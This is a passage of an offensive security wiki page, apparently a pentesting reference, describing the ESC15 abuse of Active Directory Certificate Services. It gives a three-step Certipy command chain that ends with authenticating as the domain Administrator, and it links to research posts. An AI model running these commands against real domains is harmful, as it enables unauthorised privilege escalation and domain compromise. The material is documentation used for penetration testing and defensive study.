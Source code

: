 {% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario.

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```
{% endtab %}

{% tab title="Windows" %}
_At the time of writing, no solution exists to perform this attack from a Windows machine._
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6" %}

{% embed url="https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7" %}

